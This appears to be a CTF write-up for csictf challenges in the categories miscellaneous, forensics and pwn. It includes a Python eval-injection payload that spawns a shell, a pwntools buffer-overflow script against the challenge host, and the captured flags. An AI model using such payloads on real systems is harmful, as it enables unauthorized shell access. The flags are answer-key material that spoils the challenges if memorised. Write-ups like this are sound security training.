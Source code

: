 ## Miscellaneous

### Escape Plan
We can use the vuln in eval.
We can send in input `eval('__import__("os").system("/bin/sh")')` and have the shell access.
There are a `.git` repository in the directory but there are `git` command, so i can't see commit log.
We can search the repository on GitHub and see all commit, a commits named 'oops xD' there are a file deleted, we can see the file and there are the flag `csictf{2077m4y32_h45_35c4p3d}`.

### Machine Fix
```python
def count3(n):
    sum = 0
    while n > 0:
        sum += n
        n //= 3
    return sum


print("csictf{" + str(count3(523693181734689806809285195318)) + "}")

# FLAG --> csictf{785539772602034710213927792950}
```
## Forensics

### Gradient Sky
We can use `binwalk -dd sky.jpg` and exctract all file hidden, there is a dir with a rar `4807E.rar` we can unzip and find a file that contains the flag `csictf{j0ker_w4snt_happy}`.


## Pwn

### pwn intended 0x1
There are a simple buffer overflow.
```python
from pwn import *

elf = ELF("pwn-intended-0x1")
HOST = "chall.csivit.com"
PORT = 30001
p = remote(HOST, PORT)
p.sendlineafter("\n", "A" * 255)
p.interactive()

# FLAG --> csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```

### pwn intended 0x2
For this challenge there are 2 ways to solve it, one, the simplest, is to generate a bufferoverflow and then send the value to make the condition true, while the other solution is to inject a shell because a memory area is executable
